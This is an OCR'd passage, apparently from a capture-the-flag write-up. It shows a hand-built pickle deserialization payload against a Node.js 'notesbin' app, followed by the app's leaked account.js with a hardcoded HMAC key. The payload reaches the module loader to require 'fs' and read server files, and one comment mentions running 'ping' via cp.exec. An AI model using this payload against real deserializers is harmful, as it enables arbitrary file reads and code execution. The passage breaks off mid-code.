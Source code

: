 ```
"global\n"+ //name
"S'b'\n"+ // push arbitrary String 'b'
"c"+ // GLOBAL
"a\n"+ //moduleName
"constructor\n"+ //name
// now we got [`this`, 'b', `process.mainModule.constructor`]
"s"+ // SETITEM
// and again for `_load`
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'rekire'\n"+ // push arbitrary String 'rekire'
"c"+ // GLOBAL
"b\n"+ //moduleName
"_load\n"+ //name
// now we got [`this`, 'rekire', `process.mainModule.constructor._load`]
"s" // SETITEM

pickle += ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'fs'\n"+ // push arbitrary String 'fs'
"c"+ // GLOBAL
"global\n"+ //moduleName
"rekire\n"+ //name
"("+ // a marker used to define the begining of something
"S'fs'\n"+ // 'fs' String
"l"+ // l create an array of elements until the marker
// stack looks like [`this`, 'fs', `this.rekire`, ['fs']]
"R"+ // REDUCE apply `this.rekire` on 'fs'
// stack looks like [`this`, 'fs', `fs`]
"s"+ // SETITEM so we have this.fs accessible

"(dp0\nS'username'\np1\n"+

"c"+ // GLOBAL
"fs\n"+ //moduleName
"readFileSync\n"+ //name
"("+
"S'/home/notesbin/sickle/notesbin/routes/account.js'\n"+
"l"+ // push pop 'ping secret-in.me' and push ['ping secret-in.me']
"R"+ // apply `cp.exec` on 'ping secret-in.me'
"s"+ // create dict {username: contentOfFile}
"." // the end
```

/home/notesbin/sickle/notesbin/routes/account.js

```
var express = require('express');
var router = express.Router();
var crypto = require('crypto');
const HMAC_KEY = 'gkcB2CSY1VZ7sri2dmafyyHl0qa8tJ65'; // not the flag. you must become admin.

/* GET users listing. */
router.get('/', function(req, res, next) {
  // sign-up form
  res.render('account_index', { error: req.query.error, title: "Sign up" });
});

router.post('/create', function (req, res, next) {
  // sign-up form receiver
  if (req.body) {
```